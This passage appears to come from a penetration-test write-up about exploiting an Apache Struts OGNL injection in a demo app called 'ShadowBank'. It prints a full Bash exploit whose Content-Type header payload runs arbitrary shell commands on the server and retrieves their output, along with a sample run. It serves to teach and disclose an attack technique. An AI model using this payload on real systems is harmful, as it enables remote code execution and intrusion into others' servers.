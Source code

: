 The request syntax is ... um ... rather interesting. But as you can see, it calls a Java method to retrieve the OS name and put the result value in a custom header. This confirmed that the injected code did indeed execute on the server.


## Customizing the exploit

With the simple proof-of-concept in hand, we then started changing and expanding the payload to execute a shell command and return results via headers. Unfortunately, the application server refused to send more than 50 lines in the headers, so for commands with longer outputs this wouldn’t work. Finally, we crafted an exploit to execute an arbitrary command and save its output locally on the server. We designed the exploit to have the results in the _ShadowBank_ app folder, so we could retrieve them later via a standard HTTP request.

In the end, our exploit was a simple Bash script with two _curl_ commands - one to send the payload, another to retrieve the result:

```
#!/bin/bash

# Application settings
SHADOWBANK="http://xxxx.compute.amazonaws.com/ShadowBank"
SRVPATH=/var/lib/tomcat7/webapps/ShadowBank

# File name for the output
SEC="$(date +'%s').txt"
OUT=$SRVPATH/output/$SEC

# Run the command
curl -i -s -k \
-H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmds={'/bin/sh','-c','mkdir -p $SRVPATH/output; $1 > $OUT 2>&1'}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#process.waitFor())}" \
"$SHADOWBANK/" \
>/dev/null

# Retrieve the output
curl "$SHADOWBANK/output/$SEC"
```

With this script, we could run any OS command available to the default Tomcat user:

```
$ ./run-cmd 'uname -a'
Linux ip-10-0-1-182 4.4.44-39.55.amzn1.x86_64 #1 SMP Mon Jan 30 18:15:53 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```


## Exfiltration

